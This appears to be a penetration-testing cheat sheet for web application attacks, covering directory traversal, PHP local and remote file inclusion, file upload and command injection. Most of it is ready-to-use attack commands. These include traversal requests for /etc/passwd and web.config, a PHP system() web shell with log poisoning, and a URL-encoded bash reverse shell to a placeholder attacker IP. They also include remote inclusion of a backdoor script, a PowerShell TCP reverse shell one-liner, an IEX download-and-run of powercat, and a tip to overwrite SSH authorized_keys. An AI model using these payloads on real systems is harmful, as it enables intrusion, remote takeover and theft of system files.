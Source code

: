 # Directory traversal

Example: `curl http://vulnsite/index.php?page=../../../../../../etc/passwd`
Windows (check both `/` and `\`):
```
curl http://vulnsite/index.php?page=..\..\..\..\..\..\Windows\System32\drivers\etc\hosts
curl http://vulnsite/index.php?page=../../../../../../inetpub\logs\LogFiles\W3SVC1\
curl http://vulnsite/index.php?page=../../../../../../wwwroot\web.config
```

Grafana CVE: https://golangexample.com/cve-2021-43798-grafana-8-x-path-traversal-pre-auth/ \
Apache 2.4.49 CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773

## File inclusion

### Local file inclusion

Php snipet:
```
<?php echo system($_GET['cmd']);?>
```
and poison the log files with a Header (e.g. [User-Agent](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent)) or another user controled field. Then traverse the directories to the log file:
```
http://sitetohack/index.php?page=../../../../../../../../../../var/log/apache2/access.log&cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F___AttackerIP___%2F___AttackerPort___%200%3E%261%22
```

Wrappers:
- all: https://www.php.net/manual/en/wrappers.php
- php: https://www.php.net/manual/en/wrappers.php.php
- data: https://www.php.net/manual/en/wrappers.data.php

Examples:
```
curl http://site/index.php?page=php://filter/resource=somepage.php
curl http://site/index.php?page=php://filter/convert.base64-encode/resource=somepage.php
curl http://site/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
curl http://site/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

### Remote file inclusion

Examples:
- https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/php/simple-backdoor.php
- https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```
kali$ python -m http.server 80
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/simple-backdoor.php&cmd=ls"
kali$ nc -lnvp 4444
kali$ curl "http://sitetohack/index.php?page=http://IpAttacker/php_reverse_shell.php"
```

Interactive TTY: https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
```
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
```

## File upload

Test rarer extensions and upper/lowercase mix. \
Powershell reverse shell: https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3
```
$client = New-Object System.Net.Sockets.TCPClient('$AttackerIp',$AttackerPort);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Beware of simple and double quotes... \
Webshells on Kali: `/usr/share/webshells`

Overwrite ssh keys in `/home/someuser/.ssh/authorized_keys`

## Command injection

Cmd or PowerShell: ``(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell`` \
Invoke-Expression, or IEX: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.3 \
PowerCat: https://github.com/besimorhino/powercat/blob/master/powercat.ps1 \
Url encoding: https://www.url-encode-decode.com/ 
```
IEX (New-Object System.Net.Webclient).DownloadString("http://$AttackerIp/powercat.ps1");powercat -c $AttackerIp -p $AttackerPort -e powershell
```
